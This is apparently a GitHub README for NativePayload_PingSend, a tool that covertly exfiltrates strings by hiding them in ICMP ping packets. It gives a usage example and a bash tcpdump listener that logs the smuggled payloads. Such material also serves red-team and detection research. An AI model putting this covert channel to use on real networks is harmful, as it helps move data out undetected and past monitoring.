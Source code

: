 # NativePayload_PingSend
## NativePayload_PingSend send data/string (exfiltration) to destination ip via icmp ping packets

## as you can see with this code you can send data/string via ping request to linux side via ping linux ipaddress, and in linux side with tcpdump you can dump those string/data in ping packets

you can use "monitoricmp.sh" in linux side to dump and log those strings too

```
#!/bin/bash

# Define the log file
LOGFILE="icmp_packets.log"

# Function to process each packet
process_packet() {
    while IFS= read -r line; do
        # Extract date and time
        datetime=$(date "+%Y-%m-%d %H:%M:%S")
        
        # Extract packet header and payload
        header=$(echo "$line" | grep -oP '^.*? IP .*? > .*?: ICMP echo request')
        payload=$(echo "$line" | grep -oP '0x[0-9a-f]+:.*')

        # Display the packet details
        #echo "[$datetime] Header: $header"
        echo "Payload: $payload"
        echo "[$datetime] Header: $header" >> "$LOGFILE"
        echo "Payload: $payload" >> "$LOGFILE"
    done
}

# Run tcpdump and process packets
tcpdump -i any -nn -XX icmp | process_packet
```
_____________________________________________

           md5 info 74718db7bc753bd2161bf46b0d06a31e => NativePayload_PingSend.exe


### Source code tested by .Netframework 4.7.2 

### Target Platform x64 is ok.

    usage: NativePayload_PingSend.exe ipaddress "string"    
      example NativePayload_PingSend.exe 192.168.56.101 "your string which want to send to target ipaddress via icmp ping packets"


###  NativePayload_PingSend  
   ![](https://github.com/DamonMohammadbagher/NativePayload_PingSend/blob/main/icmp.png)

###  NativePayload_PingSend  
   ![](https://github.com/DamonMohammadbagher/NativePayload_PingSend/blob/main/icmp2.png)

###  NativePayload_PingSend  
   ![](https://github.com/DamonMohammadbagher/NativePayload_PingSend/blob/main/netmon3.png)

###  NativePayload_PingSend and monitoricmp.sh
   ![](https://github.com/DamonMohammadbagher/NativePayload_PingSend/blob/main/bashicmp.png)   


<p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https://github.com/DamonMohammadbagher/NativePayload_PingSend"/></a></p>
